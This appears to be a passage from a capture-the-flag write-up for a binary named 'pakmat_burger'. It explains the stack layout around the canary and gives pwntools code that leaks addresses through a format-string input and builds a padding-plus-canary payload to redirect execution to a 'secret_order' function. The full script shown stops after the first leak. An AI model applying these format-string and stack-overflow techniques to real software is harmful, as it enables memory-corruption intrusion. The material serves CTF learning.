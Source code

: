 To find the padding from padding + canary, we need to understand the stack arrangment
```
+-----------------+
|                 |
| local variables |
|                 |
+-----------------+
|  stack canary   |
+-----------------+
|    saved RBP    |
+-----------------+
| return address  |
+-----------------+
```
so after the canary it will be the saved RBP
so the padding will be 8 characters
## exploit



The final exploit will look like this

```python
padding = b'a'*37
payload = padding + canary + b'b'*8 + elf.symbols.secret_order
```

Complete exploit
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './pakmat_burger'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
os.environ["SECRET_MESSAGE"] = "YOKO"

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================


io = start()


secret = b"YOKO"
io.sendlineafter(b"Please enter your name:",b"%17$p%13$p")
io.recvuntil(b"Hi ")
main_addr = int(io.recv(14).decode(),16)
log.info("main_addr: " + hex(main_addr))

```